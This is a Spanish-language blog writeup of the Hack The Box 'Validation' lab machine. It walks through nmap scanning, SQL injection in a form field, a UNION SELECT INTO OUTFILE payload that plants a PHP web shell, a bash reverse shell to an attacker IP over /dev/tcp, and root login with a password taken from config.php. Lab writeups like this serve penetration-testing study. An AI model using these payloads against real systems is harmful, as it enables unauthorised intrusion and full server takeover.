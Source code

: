 ```yaml
---
title:  "Writeup de la máquina Validation de Hack The Box"
mathjax: true
layout: post
categories: writeup
tags: sql-injection burpsuite php web-shell burpsuite
---
```


# Resolución de la máquina Validation de la plataforma de HackTheBox

![](https://i.ibb.co/SdzyZRf/validation.png)

### 💉 *"Máquina vulenrable a SQL Injection !!"*

**Como siempre, primero revisamos que tenemos conexión con la máquina víctima, desde nuestra máquina atacante. Una forma de hacerlo es a través del envío de paquetes ICMP con el comando "ping"**:

```bash
ping -c 1 10.10.11.116
```

**Ahora sabemos que tenemos conexión con la máquina ya que nos respondió con los paquetes que recibimos**

![](https://i.ibb.co/tMw3TDP/ping.png)

**Primeramente hacemos un escaneo Activo de la máquina en búsqueda de puertos abiertos con el siguiente comando:**

```bash
sudo nmap 10.10.11.116 -p- --min-rate 5000 -sS -Pn -oG openPorts -vvv 
```

Con el comando anterior exportamos el resultado en un formato en el cual podamos extraer los puertos abiertos con la ayuda de comandos como *"grep, awk y otros más"* para luego escanear en profundidad:

```bash
sudo nmap 10.10.11.116 -p22,80,4566,8080 -sV -sC -sS -Pn -oN scanComplete -vvv
```

#### Ahora con el escaneo completo obtenemos el siguiente resultado:

![](https://i.ibb.co/HX2nbYG/nmap.png)

**Como está abierto el puerto 80 corriendo el servicio http, entramos en el navegador web en la dirección IP de la máquina por ese puerto:**

*Pero antes de seguir con el pentesting de esta máquina, agregamos como host "validation.htb" con la IP de la máquina (10.10.11.116)*

![](https://i.ibb.co/ZMB5KXJ/etc-hosts.png)

**Vemos que tenemos un formulario simple, escrito en HTML con un input que nos permite elegir nuestro "Username", además de la región, que viene por defecto "Brazil". Si inspeccionamos el código fuente podemos ver que el <form> es decir, el formulario, envía los valores del "Username" y la "Región" al servidor web. Con esto podemos pensar que estos valores se alojan en una Base de Datos:**

![](https://i.ibb.co/nBv2wxC/form-html.png)

## Burp Suite

**Ahora configuramos la extensión de FoxyProxy en Firefox para redirigir la solicitud (o Request) a través de nuestro localhost por el puerto 8080 (127.0.0.1:8080). De este modo lo interceptamos con Burp Suite y desde ahí seguir:**

![](https://i.ibb.co/rdCRMvK/burp-suite.png)

**Ahora desde Burp Suite, comentamos el valor de el campo "country" y le inyectamos el código:**

```
or 1=1
```

![](https://i.ibb.co/h1gK15v/sqli-nourl.png)

Luego lo encodeamos con codificación URL:

![](https://i.ibb.co/crrD0TR/sqli-url.png)

**Ahora si regresamos a la parte web, vemos que se filtra el Error del Backend, lo cual nos hace pensar que es vulnerable a SQL Injection:**

![](https://i.ibb.co/xFDK3xZ/sqli-vulnerable.png)

## Una vez encontrada la vulnerabilidad, pasamos a crear un Backdoor

Como vemos en el sitio, la aplicación web utiliza PHP. Podemos intentar inyectarle una web-shell en PHP a través de un ataque de SQL Injection:

*El código que vamos a usar para agregar una web-shell con una SQL Injection será:*

```sql
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```

*Con el código anterior le decimos al servidor que también seleccione esa fracción de código, (que es el Backdoor), y lo inserte en el archivo /var/www/html/shell.php. Es decir que shell.php será nuestra web-shell en PHP. También es bueno saber que normalmente los servidores web que se ejecutan en Linux (estos son la mayoría actualmente, aunque no todos), tienen como raíz de directorios web la ruta /var/www/html*

![](https://i.ibb.co/M8HJL2d/backdoor.png)

## Ahora probamos y ¡Funciona!

**Tenemos lista nuestra web-shell en la ruta /shell.php, ahora para ejecutar un comando en el servidor solamente hay que añadir la siguiente query (consulta):**

```
shell.php?cmd={comando}
```

![](https://i.ibb.co/3Nc8csP/web-shell.png)

Ahora vamos a [https://www.revshells.com/](https://www.revshells.com/) y generamos un payload para ejecutar una Shell Reversa con Netcat y poder conectarnos al servidor desde una consola interactiva. El mismo lo ejecutamos como comando en el Backdoor de "shell.php".

Luego de probar con varios tipos de shells, me funcionó agregarle:

```bash
bash -c '{payload de la shell}'
```

Lo cual quedaría así:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.2/4545 0>&1'
```

Lo encodeamos como URL y ejecutamos el código en la web-shell, desde el navegador o desde Burp Suite.

**Vemos en el archivo "config.php" una contraseña.**

![](https://i.ibb.co/hZfGLGh/config-php.png)

**Como somos Pentesters, tenemos que probar todas las formas en que se podría acceder de forma privilegiada al sistema, así que intentamos usar esa contraseña para autenticarnos como usuario root:**

## ¡YES! Al parecer la contraseña de root es esa.

![](https://i.ibb.co/NsT0Z4n/flag-root.png)

### Y con esto terminamos la máquina y tenemos acceso total al sistema.

Happy Hacking!!

----

## Author: Mateo Fumis 
